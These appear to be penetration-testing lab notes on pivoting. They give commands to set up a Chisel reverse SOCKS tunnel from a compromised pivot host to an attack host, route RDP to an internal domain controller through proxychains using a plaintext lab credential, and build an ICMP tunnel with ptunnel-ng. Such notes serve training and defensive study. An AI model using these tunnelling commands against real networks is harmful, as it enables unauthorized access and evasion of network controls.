 ### Chisel Reverse Pivot

#### Starting the Chisel Server on our Attack Host
```Shell
chisel server --reverse -v -p 1234 --socks5
```

#### Connect from the Ubuntu (pivot host) to our attack host, using the option `R:socks`
```Shell
./chisel client -v 10.10.14.17:1234 R:socks
```

#### Editing & Confirming proxychains.conf
```Shell
tail -f /etc/proxychains.conf 

[ProxyList]
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```

#### Use proxychains and xfreerdp to connect to the DC on the internal network through the tunnel we have created to the Pivot host
```Shell
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```


## ICMP Tunneling with SOCKS

### Setting Up & Using ptunnel-ng

#### Installing Ptunnel-ng
```Shell
apt install ptunnel-ng
```

#### Transferring Ptunnel-ng to the Pivot Host
```Shell
scp -r ptunnel-ng ubuntu@10.129.202.64:~/
```

#### Starting the ptunnel-ng Server on the Target Host
```Shell
sudo ./ptunnel-ng -r10.129.202.64 -R22
```
The IP address following `-r` should be the IP we want ptunnel-ng to accept connections on

#### Connecting to ptunnel-ng Server from Attack Host
```Shell
ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22
```
